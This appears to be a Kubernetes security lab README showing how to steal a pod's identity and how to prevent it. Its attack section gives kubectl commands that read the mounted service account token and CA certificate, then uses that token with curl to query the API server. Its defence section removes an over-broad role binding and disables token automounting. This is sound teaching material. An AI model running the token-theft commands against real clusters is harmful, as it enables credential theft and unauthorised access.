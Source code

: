 
# Identity theft

In this lab you will steal the identity of a pod.

## Attack

### Getting the credentials

```bash
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Exploiting the API-Server

```bash
TOKEN=$(kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt > ca.crt

# get infos about pods
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

## Avoiding the Attack

### Checking the permissions

```bash
# check permissions in the default namespace
kubectl auth can-i --list --namespace default

# check the clusterrolebinding
kubectl describe clusterrolebinding my-suboptimal-clusterrolebinding

# check the permissions of the cluster role
kubectl describe clusterrole cluster-admin
```

### Disable permissions

```bash
# disable permissions
kubectl delete clusterrolebinding my-suboptimal-clusterrolebinding

# try to get infos about pods - now this should fail
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

### Avoiding token mounts

Disable automount of ServiceAccount Token in the file `pod.yaml`
```yaml
...
spec:
  automountServiceAccountToken: false # <= disable automount of ServiceAccount Token
...
```  

```bash
kubectl apply -f pod.yaml --force
```

#### Verify sensible data is not mounted anymore
```bash
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```